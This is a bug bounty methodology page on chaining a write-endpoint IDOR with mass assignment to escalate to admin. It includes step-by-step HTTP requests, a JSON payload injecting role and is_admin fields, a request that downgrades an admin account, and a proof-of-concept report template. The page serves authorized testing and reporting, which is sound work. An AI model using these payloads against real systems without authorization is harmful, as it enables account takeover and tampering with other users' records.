

> Source: https://bugbounty.info/Chains/IDOR-and-Mass-Assignment

# IDOR and Mass Assignment to Privilege Escalation

## Why This Chain Works

The standard IDOR story is about reading data you shouldn't see. This chain is about writing to objects you shouldn't own, and injecting fields the developer never intended to be user-settable. Mass assignment happens when a framework automatically binds request body fields to model attributes without an allowlist. The attacker sends `role=admin` in a JSON body and the ORM saves it. That's one vulnerability. Combine it with an IDOR on a write endpoint - where you can send that body to another user's record, not just your own - and you have privilege escalation to admin of any account on the platform.

Related: [IDOR to ATO](../Chains/IDOR-to-ATO), [IDOR Patterns](../Attack-Surface/Web/Authorization/IDOR), [Mass Assignment](../Attack-Surface/Web/Authorization/Mass-Assignment)

---

## Attack Flow



---

## Step-by-Step

### 1. Find the Write Endpoint

Most applications expose CRUD operations on user or object resources. Look for:

```http
PUT /api/v1/users/12345
PATCH /api/v1/users/12345
PUT /api/v1/profile/12345
POST /api/v1/accounts/12345/update
```

The account management section, user settings, and admin-facing APIs are the most common locations.

### 2. Test IDOR on the Write Endpoint

Most IDOR testing focuses on GET. The more impactful - and often less tested - variant is on write operations. Create two accounts (Account A = attacker, Account B = victim).

```http
PATCH /api/v1/users/VICTIM_ID HTTP/1.1
Authorization: Bearer ATTACKER_TOKEN
Content-Type: application/json
 
{"display_name": "idor-test"}
```

If the response is 200 and the victim's display name changes, you have a write IDOR. This alone may warrant a high severity report, but don't stop here.

### 3. Probe Mass Assignment

On the same endpoint, add fields beyond what the normal UI would send:

```http
PATCH /api/v1/users/VICTIM_ID HTTP/1.1
Authorization: Bearer ATTACKER_TOKEN
Content-Type: application/json
 
{
  "display_name": "test",
  "role": "admin",
  "is_admin": true,
  "account_type": "enterprise",
  "plan": "unlimited",
  "permissions": ["admin", "write", "delete"],
  "balance": 99999,
  "verified": true,
  "email_verified": true
}
```

Check the response. Signs that mass assignment is occurring:

- The response reflects the extra fields back in the object
- The extra fields appear silently in subsequent GET requests on that account
- The account's behaviour changes (access to admin pages, lifted rate limits)

Even if fields are not reflected in the immediate response, follow up with a GET on the modified user and compare all fields against a baseline.

### 4. The Combined Chain

Once you have both:

- Write IDOR (you can modify another user's record)
- Mass assignment (the server accepts and saves extra fields like `role`)

Send the escalation payload targeting a high-value account:

```http
PATCH /api/v1/users/ADMIN_USER_ID HTTP/1.1
Authorization: Bearer ATTACKER_TOKEN
Content-Type: application/json
 
{"role": "user"}
```

This downgrades the admin, confirms write IDOR on admin accounts.

Then escalate your own account:

```http
PATCH /api/v1/users/ATTACKER_USER_ID HTTP/1.1
Authorization: Bearer ATTACKER_TOKEN
Content-Type: application/json
 
{"role": "admin", "is_admin": true}
```

If this succeeds, you have self-escalated to admin using your own session. No other account needed.

### 5. Confirm Privilege Escalation

After the mass assignment write, confirm the elevation:

```bash
# Check your own profile
GET /api/v1/users/ATTACKER_USER_ID
# Look for "role": "admin" in the response
 
# Try accessing an admin-only endpoint
GET /api/v1/admin/users
# If you get a list of all users instead of a 403, elevation is confirmed
 
# Screenshot the admin panel if accessible
```

### 6. Contrast with Read IDOR

This chain is distinct from [IDOR to ATO](../Chains/IDOR-to-ATO), which reads sensitive fields to enable password reset. Here:

| Chain | IDOR Type | Mass Assignment | Outcome |
| --- | --- | --- | --- |
| IDOR to ATO | Read - leak PII | Not required | Account takeover via reset |
| This chain | Write - modify foreign record | Required for privilege fields | Admin on any account |

The write-IDOR-plus-mass-assignment combination is frequently missed because testers focus on whether they can read other users' data and overlook whether they can write to it.

---

## PoC Template for Report

```text
Account A (attacker): user_id=100, role=user, token=ATTACKER_TOKEN
Account B (victim):   user_id=101, role=user
 
Step 1: Write IDOR confirmation
  PATCH /api/v1/users/101
  Authorization: Bearer ATTACKER_TOKEN
  {"display_name":"idor-confirmed"}
  Response: 200 {"id":101,"display_name":"idor-confirmed"}
  -- Account B's display name changed using Account A's token --
 
Step 2: Mass assignment probe
  PATCH /api/v1/users/100
  Authorization: Bearer ATTACKER_TOKEN
  {"role":"admin"}
  Response: 200 {"id":100,"role":"admin","is_admin":true}
  -- Response reflects "role":"admin" --
 
Step 3: Combined escalation
  GET /api/v1/admin/users
  Authorization: Bearer ATTACKER_TOKEN
  Response: 200 [{"id":1,...},{"id":2,...},...] (full user list - admin endpoint accessible)
 
  Screenshot of /admin panel showing admin access attached.
```

---

## Public Reports

- Mass assignment on HackerOne allowing users to set admin role on registration - [HackerOne #163009](https://hackerone.com/reports/163009)
- IDOR on write endpoint combined with mass assignment on GitLab - [HackerOne #858671](https://hackerone.com/reports/858671)
- Mass assignment to privilege escalation on Shopify Partners - [HackerOne #730239](https://hackerone.com/reports/730239)
- IDOR allowing modification of other users' records on Keybase - [HackerOne #193397](https://hackerone.com/reports/193397)

---

## Reporting Notes

Present this as a single chain, not two separate bugs. The combined impact - admin access on any user account - is what justifies critical severity. If mass assignment only works on your own account (no IDOR), severity is high but lower. The IDOR on the write endpoint is what turns self-escalation into universal escalation. Show all three steps: write IDOR confirmed, mass assignment field accepted, admin access demonstrated. Admin endpoint access or a screenshot of the admin panel is the cleanest proof.
